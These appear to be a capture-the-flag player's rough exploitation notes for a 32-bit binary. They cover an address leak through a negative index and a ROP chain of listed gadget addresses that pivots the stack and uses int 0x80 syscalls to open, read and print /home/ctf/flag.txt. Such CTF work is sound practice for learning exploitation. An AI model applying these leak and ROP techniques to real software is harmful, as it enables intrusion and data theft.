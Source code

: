 ## Leak an address

index> 4294967203
-93: [0xffffc14c] 3705140727 (dcd7f5f7)
becomes 0xf7f5d7dc
return in main_once (starts at 0xf7f5d710)
(.text at 0xf7f5c280)
file base at 0xf7f59000

flag.txt: 0xf7fc714c - 0xf7f5c000

should be able to overwrite with a pop *; ret
pivot via pop esp; pop*; ret? (need 2nd pop to get over length field!)

Ropper:
[11]  .text                0x00003280  0x00003280  PROGBITS

0x0002bfe9: pop esp; mov eax, 0x10; pop edi; ret;

Can int 0x80, ret:
0x00034c60: int 0x80; ret;


Rough outline:

ebx, ecx, edx = args

- open("/home/ctf/flag.txt")
- read(eax, tmpaddr, 256)
- write(1, tmpaddr, eax)

get address of flag.txt string into ebx
clear ecx
0x0002eff9: xor eax, eax; pop ebx; ret;
addr of flag.txt!
0x6b14c (relative to base of file)
0x000544c0: mov ecx, eax; mov eax, ecx; ret;

eax = 5
0x00054450: mov eax, 5; ret;

int 0x80
0x00034c60: int 0x80; ret;

mov ebx, eax
should we just assume fd=3?
0x0000301e: pop ebx; ret;
constant(3)

pop ecx, ...? some buffer space
0x0006a4d6: pop eax; ret;
(TODO) .data address?
0x000544c0: mov ecx, eax; mov eax, ecx; ret;

mov edx, <some reasonable value>
0x0006a4d6: pop eax; ret;
256
0x000607c7: xchg eax, edx; ret;

eax = 3
0x00054430: mov eax, 3; ret;
int 0x80
0x00034c60: int 0x80; ret;

mov edx, eax
0x000607c7: xchg eax, edx; ret;
mov ecx, same buffer address
0x0006a4d6: pop eax; ret;
(TODO) .data address?
0x000544c0: mov ecx, eax; mov eax, ecx; ret;
mov ebx, 1
0x0000301e: pop ebx; ret;
1

eax = 4
0x00054440: mov eax, 4; ret;
int 0x80
0x00034c60: int 0x80; ret;

where to use for slack space?
data @ 0xf7ffb000
but maybe have register already?


Scratch:
0x0003ebd1: xchg eax, edi; ret; 
0x000607c7: xchg eax, edx; ret;


